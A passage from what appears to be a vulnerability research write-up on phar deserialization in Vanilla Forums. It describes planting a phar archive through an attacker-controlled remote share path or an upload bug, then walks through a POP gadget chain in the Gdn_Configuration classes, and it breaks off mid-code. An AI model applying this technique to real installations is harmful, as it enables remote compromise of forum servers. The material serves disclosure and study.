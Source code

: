#### Phar planting

<p class="cn" markdown="1">There are several ways to do this as outlined by Sam such as using a [race condition](https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf) with `phpinfo` in which you can leak the temporary file that is uploaded or using `/proc/self/fd`. However, the techniques that I tested and proved working (at least in this specific case) are:</p>

<div markdown="1" class="cn">
* If targeting a Windows system, just use a remote share! `phar:////attacker/share/test.phar/.jpg`.
* If you are targeting unix, you can also leverage a file upload bug where they do not check the contents of the file. You will also need to leak the file path.
</div>

<p class="cn" markdown="1">For my proof of concept, I just went with a file upload and leaked the file path to plant a phar archive on the target system. The filename is generated with `md_rand`, which is an information disclosure bug in itself, but whatever!</p>

#### POP chain

<p class="cn" markdown="1">I had a few choices but the class I decided to leverage in the end was the `Gdn_Configuration` class in `library/core/class.configuration.php`.</p>

```php
class Gdn_Configuration extends Gdn_Pluggable {

    ...

    public function shutdown() {
        foreach ($this->sources as $source) {       // 2
            $source->shutdown();                    // 3
        }
    }
    
    ...

    public function __destruct() {
        if ($this->autoSave) {                      // 0
            $this->shutdown();                      // 1
        }
    }
}
```
<p class="cn" markdown="1">At *[0]* and *[1]* we can reach the `shutdown` function if we set the `autoSave` property. Then at *[2]* and *[3]* we can reach the shutdown of another class that we specify. I decided to leverage a class that contains that function and not the magic method `__call`.</p>

<p class="cn" markdown="1">In `library/core/class.configurationsource.php` we can see the following code</p>

```php
class Gdn_ConfigurationSource extends Gdn_Pluggable {

    ...

    /**
     * Save the config.
     *
     * @return bool|null Returns **null** of the config doesn't need to be saved or a bool indicating success.
     * @throws Exception Throws an exception if something goes wrong while saving.
     */
    public function save() {
        if (!$this->Dirty) {
            return null;
        }

```